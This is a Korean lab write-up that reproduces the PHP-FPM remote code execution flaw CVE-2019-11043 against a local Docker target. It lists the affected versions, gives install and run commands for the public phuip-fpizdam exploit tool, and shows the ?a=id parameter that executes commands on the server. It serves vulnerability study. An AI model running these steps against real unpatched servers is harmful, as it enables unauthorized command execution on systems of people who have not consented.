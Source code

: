 # PHP-FPM 원격 코드 실행 (CVE-2019-11043)

PHP-FPM은 PHP를 FastCGI 방식으로 실행하기 위한 모듈입니다.
PHP 7.1.x, 7.2.x, 7.3.x 버전 중 일부 설정에서, nginx와 함께 잘못 설정될 경우
버퍼를 초과해서 쓰기가 발생하여 원격 코드 실행(RCE)이 가능해집니다.

취약점 번호: CVE-2019-11043

주요 영향 버전: PHP 7.1.33 미만, PHP 7.2.24 미만, PHP 7.3.11 미만

**실습 환경**

- Windows 11 wsl 환경

도커 명령어

```bash
docker compose up -d
```

![alt text](<스크린샷 2025-04-27 020154.png>)
서버 접속

```bash
http://127.0.0.1:8080/index.php # http://your-ip:8080/index.php
```

접속 시 정상적으로 hello world가 뜨는 것을 확인할 수 있습니다.
![alt text](<스크린샷 2025-04-27 020132.png>)

### 익스플로잇 과정

사용된 도구: https://github.com/neex/phuip-fpizdam

설치방법

```bash
go install github.com/neex/phuip-fpizdam@latest
```

공격 실행 명령어

```bash
~/go/bin/phuip-fpizdam http://127.0.0.1:8080/index.php
```

![alt text](<스크린샷 2025-04-27 020933.png>)
취약한 PHP-FPM 설정을 가진 서버를 대상으로, QSL과 PISOS 값의 조작을 통해 세션 설정을 변경하였습니다.

결과

```bash
http://127.0.0.1:8080/index.php?a=id
```

![alt text](<스크린샷 2025-04-27 020846.png>)

그 결과 URL 파라미터(?a=명령어)를 통해 서버 측 명령어를 원격으로 실행하는 데 성공했습니다. 위 스크린샷은 서버에서 id 명령어를 실행해서 나온 결과를 보여줍니다.
